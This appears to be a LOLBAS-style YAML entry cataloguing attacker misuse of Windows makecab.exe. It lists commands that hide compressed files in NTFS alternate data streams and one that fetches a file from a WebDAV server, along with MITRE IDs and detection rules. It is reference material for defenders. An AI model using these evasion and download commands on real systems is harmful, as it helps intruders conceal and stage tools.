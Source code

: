 ```yaml
---
Name: Makecab.exe
Description: Binary to package existing files into a cabinet (.cab) file
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: makecab c:\ADS\autoruns.exe c:\ADS\cabtest.txt:autoruns.cab
    Description: Compresses the target file into a CAB file stored in the Alternate Data Stream (ADS) of the target file.
    Usecase: Hide data compressed into an alternate data stream
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: makecab \\webdavserver\webdav\file.exe C:\Folder\file.txt:file.cab
    Description: Compresses the target file into a CAB file stored in the Alternate Data Stream (ADS) of the target file.
    Usecase: Hide data compressed into an alternate data stream
    Category: ADS
    Privileges: User
    MitreID: T1564.004
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: makecab \\webdavserver\webdav\file.exe C:\Folder\file.cab
    Description: Download and compresses the target file and stores it in the target file.
    Usecase: Download file and compress into a cab file
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
Full_Path:
  - Path: C:\Windows\System32\makecab.exe
  - Path: C:\Windows\SysWOW64\makecab.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_susp_alternate_data_streams.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/defense_evasion_misc_lolbin_connecting_to_the_internet.toml
  - IOC: Makecab retrieving files from Internet
  - IOC: Makecab storing data into alternate data streams
Resources:
  - Link: https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
---
```

